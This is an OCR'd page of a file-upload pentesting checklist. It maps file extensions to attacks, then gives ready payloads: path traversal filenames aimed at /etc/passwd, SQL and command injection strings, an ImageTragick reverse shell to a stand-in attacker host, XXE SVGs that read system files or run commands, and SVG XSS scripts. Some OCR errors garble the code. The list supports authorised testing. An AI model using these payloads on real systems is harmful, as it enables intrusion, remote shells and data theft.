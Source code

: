         # Impact by extension
        asp, aspx, php5, php, php3: webshell, rce
        svg: stored xss, ssrf, xxe
        gif: stored xss, ssrf
        csv: csv injection
        xml: xxe
        avi: lfi, ssrf
        html, js: html injection, xss, open redirect
        png, jpeg: pixel flood attack dos
        zip: rce via lfi, dos
        pdf, pptx: ssrf, blind xxe
        
        # Path traversal
        ../../etc/passwd/logo.png
        ../../../logo.png
        
        # SQLi
        'sleep(10).jpg
        sleep(10)-- -.jpg
        
        # Command injection
        ; sleep 10;
        
        # ImageTragick
        push graphic-context
        viewbox 0 0 640 480
        fill 'url(https://127.0.0.1/test.jpg"|bash -i >& /dev/tcp/attacker-ip/attacker-port 0>&1|touch "hello)'
        pop graphic-context
        
        # XXE .svg
        <?xml version="1.0" standalone="yes"?>
        <!DOCTYPE test [ <!ENTITY xxe SYSTEM "file:///etc/hostname" > ]>
        <svg width="500px" height="500px" xmlns="http://www.w3.org/2000/svg" xmlns:xlink="http://www.w3.org/1999/xlink" version="1.1
        <text font-size="40" x="0" y="16">&xxe;</text>
        </svg>
        
        <svg xmlns="http://www.w3.org/2000/svg" xmlns:xlink="http://www.w3.org/1999/xlink" width="300" version="1.1" height="200">
        <image xlink:href="expect://ls"></image>
        </svg>
        
        # XSS svg
        <svg onload=alert(document.comain)>.svg
        <?xml version="1.0" standalone="no"?>
        <!DOCTYPE svg PUBLIC "-//W3C//DTD SVG 1.1//EN" "http://www.w3.org/Graphics/SVG/1.1/DTD/svg11.dtd">
        File Upload Checklist 3
        <svg version="1.1" baseProfile="full" xmlns="http://www.w3.org/2000/svg">
        <rect width="300" height="100" style="fill:rgb(0,0,255);stroke-width:3;stroke:rgb(0,0,0)" />
        <script type="text/javascript">
        alert("HolyBugx XSS");
        </script>
        </svg>
        